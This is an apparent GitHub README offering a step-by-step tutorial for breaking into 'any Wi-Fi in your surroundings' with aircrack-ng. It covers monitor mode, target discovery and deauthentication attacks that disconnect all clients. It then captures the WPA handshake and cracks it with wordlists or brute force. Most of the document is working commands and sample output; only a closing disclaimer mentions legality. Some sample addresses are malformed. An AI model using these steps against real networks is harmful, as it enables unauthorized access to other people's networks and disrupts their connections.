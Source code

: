 # Hack Wi-Fi
This repo contains every step to hack any Wi-Fi in your surroundings.  

**The basic requirement is having a Linux distro booted in your Machine or in a Virtual Machine.**
   - Using VM requires an external Wi-Fi network adapter that should support monitor mode. (Recommended: Alfa network adapter)
   - Using your machine doesn't require any external Wi-Fi adapter if the internal one supports monitor mode.  

## Install aircrack-ng:  

Arch:
```
sudo pacman -S aircrack-ng
```
Kali:
```Managed
sudo apt-get update
sudo apt-get upgrade aircrack-ng
```
Ubuntu/Debian:
```
sudo apt-get update
sudo apt-get install aircrack-ng
```
Fedora:
```
sudo dnf install aircrack-ng
```


## Check your wireless LAN adapter name:  

```
ip addr
```
**Find your LAN adapter name below:**  
Here it is wlan0.
```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 123.0.0.4/5 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp2s0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc fq_codel state DOWN group default qlen 1000
    link/ether 04:42:1a:d0:ee:f4 brd ff:ff:ff:ff:ff:ff
3: wlan0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 90:e8:69:2c:x8:77 brd ff:ff:ff:ff:ff:ff
    inet 142.168.839.07/16 brd 195.168.255.255 scope global dynamic noprefixroute wlan0
       valid_lft 84054sec preferred_lft 84054sec
    inet6 fe60::a3f5:fq53:55c:b0e7/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```


## Change your adapter from managed mode to monitor mode  

**Check it's mode:**
```
iwconfig
```
It should be in managed mode at its initial stage. The wlan0 says it's mode.
```
lo        no wireless extensions.

enp2s0    no wireless extensions.

wlan0     IEEE 802.11  ESSID:"L**Y"  
          Mode:Managed  Frequency:5.2 GHz  Access Point: 54:2A:75:9C:33:64   
          Bit Rate=585 Mb/s   Tx-Power=3 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=63/70  Signal level=-47 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0

```
**Checking for any conflicting process to kill them:**
```
sudo airmon-ng check kill
```  

**Changing the LAN to monitor mode:**
```
sudo airmon-ng start wlan0
```
Your Wi-Fi connection is deactivated now.

**Check it's mode now:**
```
iwconfig
```
It should be in monitor mode at this stage. The wlan0 says it's mode.
```
lo        no wireless extensions.

enp2s0    no wireless extensions.

wlan0mon  IEEE 800.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=3 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```
If you try to check, the wlan0 name is changed to wlan0mon, because we have changed it to monitor mode.  



## Discover the Access Points:  

```
sudo airodump-ng wlan0mon
```
A whole bunch of wireless networks will be discovered here. From there note the BSSID(Would be found in the BSSID column) and the Channel(Would be found in the CH column) of your targeted wireless network. After being done with noting down that information, stop (Ctrl + C) the process.  

**Display only the targetted access point:**
```
sudo airodump-ng wlan0mon -d <BSSID>
```
Replace the above < BSSID > with your targetted network's BSSID that you noted before.  

It will show the information of your targetted network and below it shows the connected device with that network. If you see it is empty below that means,  no devices are connected with that network, and in that case, you need to connect a device so that the handshake file can be exchanged with the AP(Access Point) and you get the chance to capture it on it's way. When you see any connected device below, stop (Ctrl + C) the process.



## Storing the captured HandShake file to the local:  

```
sudo airodump-ng -w getpass -c <CHANNEL> --bssid <BSSID> wlan0mon
```
Replace < CHANNEL > with the channel for your targeted network and < BSSID > with your BSSID.  

Here ```getpass``` is going to be the file name of the handshake file we would store.
Don't stop the process (Follow the next steps instead) and leave it till we send the de-authentication request and get the handshake file.



## Send the De-Authentication request:  

Open a new console window and input the command there. That means you are instructed not to kill the process of the previous tab. That should be opened because we will get that file on that other window only.  
Enter the below command in the new tab of the console.
```
sudo aireplay-ng deauth 0 -a <BSSID> wlan0mon
```
Replace < BSSID > with your BSSID of the targeted AP.  

This sends the De-Authentication request to the targetted network which means, that each and every connected device will be disconnected and will try to reconnect with the AP again. This is the time we will capture the handshake file and will store it locally. Stop the process after 30 to 45 seconds.



## Checking the directory if the Handshake is captured:  

```clear``` all the commands.
List the current directory by ```ls```
If any file named ```getpass-01.cap```is found that means the file is captured and it is ready to be cracked.
If nothing is found named ```getpass-01.cap``` that means the whole process should be completed correctly again.



## Cracking the HandShake file using aircrack-ng (Dictionary Attack):  

Cracking that file needs some wordlists. A word list is available in this repo and this should be downloaded.  
For more wordlists, it is recommended to visit - [wpa2-wordlists](https://github.com/kennyn510/wpa2-wordlists)  
List the directory by ```ls``` to make sure both the wordlist and the Handshake file are present there.  

**Use the below command to crack the key:**  

```aircrack-ng getpass-01.cap -w <WORDLIST-PATH>```  
Replace < WORDLIST-PATH > with the path of the wordlist downloaded.  

_Now the output is either 'THE KEY IS FOUND' or 'THE KEY IS NOT FOUND'. If the key couldn't be found in that particular wordlist, try with a few other wordlists available._  
It is also suggested to go with a BruteForce attack if the key can't be found in wordlists.


## Switch to managed mode again from monitor mode:  

```
sudo airmon-ng stop wlan0
```
Your Wi-Fi connection is activated now and it has been changed to wlan0 from wlan0mon.



## DISCLAIMER
_Using tools like Aircrack-ng for unauthorized access to Wi-Fi networks is illegal and unethical. Engaging in such activities can lead to severe legal consequences. Instead, I encourage you to focus on legitimate and ethical uses of your programming skills, such as network security or ethical hacking, to help protect digital systems and data._
